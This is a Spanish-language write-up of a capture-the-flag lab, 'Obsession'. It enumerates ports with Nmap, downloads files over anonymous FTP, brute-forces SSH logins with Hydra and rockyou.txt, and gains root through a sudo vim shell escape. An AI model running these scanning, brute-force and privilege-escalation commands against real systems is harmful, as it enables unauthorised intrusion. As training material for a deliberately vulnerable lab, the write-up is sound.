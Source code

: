 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
vamos a hacer un escaneo más dirigido a los servicios que tenemos
Para el servicio FTP utilizamos este tipo de escaneo que prueba algunos script tipicos:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

Vemos como esta permitido el usuario y contraseña anonymous por defecto y encontramos dos fichero interesante.
chat_gonza.txt y pendientes.txt.

Por lo tanto nos lo descargamos para poder ver el contenido de los dos ficheros con el siguiente comando una vez que estamos dentro del 
servicio ftp:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

De la misma forma hacemois un escaneo mas particular para el servicio ssh 

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

sin embargo , no conseguimos nada relevante.


vamos a ver que hay en la página web,si examinamos el código fuente 
nos aparece esto: 
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

Vamos a examinar los dos fichero que hemos descargado mediante el servicio ftp:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
Podemos ver que hay tres usuarios potenciales "Gonza" , "Russoski" y "Nagore" por lo tanto vamos probar si algun de estos usuarios nos permite acceder al servicio ssh para ello voy autilizar la herramienta hydra y el diccionario "rockyou.txt".

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

Vemos como conseguimos la constraseña de russoski que es "iloveme",por lo tanto ya nos podemos conectar al servicio SSH:

![Descripción de Obssesion](Imagenes/Obssesion_6.png)


## Escalada de privilegios

Ejecutamos el comando :
```ruby
sudo -l
```

![Descripción de Obssesion](Imagenes/Obssesion_7.png)

Vemos que podemos ejecutar como root  el binario vim para ello vamos a GTobins y comprobamos si podemos eplotarlo:

```ruby
sudo vim -c ':!/bin/sh'
```
![Descripción de Obssesion](Imagenes/Obssesion_8.png)
